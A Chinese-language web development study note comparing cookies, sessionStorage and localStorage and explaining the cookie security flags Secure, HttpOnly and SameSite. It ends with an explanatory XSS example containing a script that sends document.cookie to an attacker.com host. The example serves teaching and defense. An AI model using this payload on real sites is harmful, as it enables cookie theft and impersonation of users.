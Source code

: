 vant 图片懒加载原理

[流程图](https://excalidraw.com/#json=39ahva7amaS1d2lqYMC0v,3QBiVpqeHBItdme6RD6zvA)

## cookie、sessionStorage与localStorage有何区别

### 相关资料

1. 使用方式

cookie：第一次用户端浏览器在发送请求后，服务器端会在回应的标头中，添加一个`Set-Cookie` 的选项并将 cookie 放入到回应中，送回用户浏览器端后，会储存在用户端本地。此外 cookie 会在用户浏览器下一次发送请求时，一同被携带并发送回服务器上。

localStorage、sessionStorage：这两者都是使用`键与值(key-value)` 的方式储存在用户本地端。

2. 生命周期

   cookie：可以透过 `Expires` 标明失效时间、或 `Max-Age` 标明有效时间长度，没有设置的话，预设是关闭浏览器之后失效。

   localStorage：除非在用户端被手动删除，或是代码清除，否则将永久保存。

   sessionStorage：在每次关闭该页面、或是关闭浏览器后就会自动被清除。

3. 存储大小

   cookie 数据大小不能超过4 k 。
   sessionStorage 和 localStorage 虽然也有存储大小的限制，但比 cookie 大得多，可以达到 5M 或更大。

4.  作用域

     sessionStorage  只在同源的同窗口（或标签页）中共享数据，也就是只在当前会话中共享。这里需要注意的是，页面及标 签页仅指顶级窗口，如果一个标签页包含多个iframe标签且他们属于同源页面，那么他们之间是可以共享sessionStorage的
     localStorage    在所有同源窗口中都是共享的。
     cookie          在所有同源窗口中都是共享的。

5. Cookie安全

   cookie 因为会被自动夹带在 HTTP 请求中，传送给服务器，因此需要考量到安全性的问题。

   - `Secure`：加上 Secure 可以确保只有在以加密的请求透过 HTTPS 协议时，才会传送给服务器。
   - `HttpOnly`：加上`HttpOnly`， 可以避免 JavaScript 的`Document.cookie`方法取得`HttpOnly cookies`，此方法可以避免跨站脚本攻击([XSS ](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting))。
   - SameSite:控制Cookie在**跨站点请求**中的发送行为，防御CSRF（跨站请求伪造）攻击

   XSS攻击中Cookie窃取与伪造请求的典型示例

   1. 注入恶意脚本
      攻击者通过存在XSS漏洞的输入点（如评论框、URL参数、文件上传）注入恶意JavaScript代码

   ```
   <script>
     fetch('https://attacker.com/steal?cookie=' + document.cookie);
   </script>
   ```

   2. 窃取用户Cookie
      当受害者访问含恶意脚本的页面时，浏览器自动执行代码，通过`document.cookie`获取当前域下的Cookie，并发送至攻击者控制的服务器

   3. 伪造请求
      攻击者利用窃取的Cookie模拟受害者身份，向目标网站发起请求（如修改账户信息、转账等）
